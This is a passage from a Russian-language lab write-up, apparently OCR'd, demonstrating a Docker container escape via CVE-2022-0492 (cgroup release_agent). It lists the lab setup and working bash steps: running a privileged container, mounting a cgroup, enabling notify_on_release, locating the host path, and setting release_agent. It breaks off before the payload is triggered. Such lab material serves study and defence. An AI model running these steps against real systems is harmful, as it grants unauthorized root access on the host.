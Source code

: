 ## 4 🐳 Атака методом выхода за пределы контейнера (Docker Escape, CVE-2022-0492)

**Идея:** уязвимость в механизме cgroup release agent в ряде конфигураций ядра Linux (CVE-2022-0492) даёт возможность инициировать выполнение кода на хост-системе от имени `root`, т.е. выйти за пределы контейнера.

---

### 🔹 Лабораторный стенд

**Таблица — Конфигурация для демонстрации Docker Escape**

| Узел / Порт          | Роль          | Описание |
|----------------------|---------------|----------|
| Ubuntu (host)        | Хост Docker   | Ядро Linux, Docker Engine (учебный узел) |
| Контейнер `ubuntu`   | Песочница     | Среда, где выполняется код злоумышленника |
| `192.168.0.97`      | Сеть стенда   | Доступ к хосту и контейнеру в тестовом сегменте |

> Дистрибутив: Ubuntu (актуальный LTS); доступны официальные пакеты Docker Engine и зависимости.

---

### 🛠 Ход атаки (шаги с редактированием эксплуатационных фрагментов)

Шаг 1 — Развёртывание контейнера
Запустить контейнер на базе Ubuntu для воспроизведения атаки.
Убедиться, что в контейнере доступны базовые утилиты.

```bash
docker run --rm -it --privileged ubuntu bash
```
Шаг 2 — Подготовка cgroup-окружения внутри контейнера
Создать тестовую иерархию cgroup и смонтировать нужную подсистему в рабочий каталог. Создать вложенную группу 
```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```
Включить механизм уведомления об освобождении процессов.

```bash
echo 1 > /tmp/cgrp/x/notify_on_release
```
Шаг 3 — Определение пути к корню файловой системы хоста
Определить путь монтирования корневого раздела хоста для последующей записи артефактов.
```bash
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```
Шаг 4 — Указание release agent
Сформировать абсолютный путь к скрипту-агенту на хосте (например, условный /cmd).
Записать этот путь в соответствующее поле release agent.
```bash
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```
